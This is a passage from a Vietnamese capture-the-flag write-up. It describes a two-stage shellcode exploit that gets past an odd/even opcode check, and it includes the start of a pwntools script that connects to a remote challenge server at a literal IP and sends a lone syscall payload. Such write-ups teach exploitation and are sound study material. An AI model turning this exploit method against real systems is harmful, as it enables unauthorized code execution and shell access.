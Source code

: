 <img src="24.png"/>

Vậy payload đầu tiên chúng ta chỉ cần gọi **`syscall`** để chương trình tiếp tục được nhập input lần thứ hai. Vì đã pass qua vòng **`for`** check opcode chẵn lẻ, nên tại lần nhập thứ hai này, ta chỉ cần viết shellcode lấy shell như thông thường. 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge") 
# libc = ELF("./libc.so.6")
# ld = ELF("./ld-2.35.so")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("152.69.210.130", 3002)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

payload1 = asm("""
    syscall 
""")
sa(b">\n", payload1)

```